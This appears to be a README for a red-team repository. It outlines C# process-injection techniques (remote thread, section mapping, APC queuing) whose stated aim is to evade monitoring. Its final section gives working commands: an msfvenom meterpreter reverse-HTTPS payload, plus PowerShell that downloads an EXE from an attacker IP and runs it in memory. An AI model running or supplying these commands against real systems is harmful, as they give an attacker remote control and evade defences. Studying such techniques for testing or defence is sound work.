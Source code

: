 ## **NativeProcInjection.cs**

This technique demonstrates classic process injection using standard Windows API functions. It creates a remote process (usually `notepad.exe`), allocates memory in it, writes shellcode, and creates a remote thread to execute the payload.

**High-Level Steps:**
1. Launch a target process in suspended or running state (e.g., `CreateProcess`).
2. Allocate memory in the remote process using `VirtualAllocEx`.
3. Write the shellcode to the allocated memory using `WriteProcessMemory`.
4. Create a new thread in the remote process pointing to the shellcode with `CreateRemoteThread`.

---

## **NtMapInjection.cs**

This method utilizes NT native APIs to create a shared memory section and map it into both the local and remote process. It’s stealthier than the classic method and avoids using easily-monitored APIs like `WriteProcessMemory`.

**High-Level Steps:**
1. Create a memory section using `NtCreateSection`.
2. Map the section into the local process using `NtMapViewOfSection`.
3. Copy the shellcode into the local view.
4. Map the same section into the remote process using `NtMapViewOfSection`.
5. Create a remote thread in the target process with `CreateRemoteThread` or equivalent to execute the code.

---

## **NtQueueApc.cs**

This method uses Asynchronous Procedure Calls (APCs) to queue execution of shellcode in the context of a thread in a remote process. It is often used in combination with other techniques to delay execution or avoid detection.

**High-Level Steps:**
1. Open a handle to the target process and a thread within it.
2. Allocate memory in the target process and write the shellcode using `VirtualAllocEx` and `WriteProcessMemory`.
3. Use `NtQueueApcThread` to queue a call to the shellcode in the remote thread.
4. Resume the thread if it's suspended, so the APC can be delivered and executed.

## **TryHarder.cs**

Another Process Injection technique that loads the shellcode remotely.<br>
The idea of this technique is by `Sektor 7` and ported to C# by [saulgoodman](https://github.com/saulg00dmin).

Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`
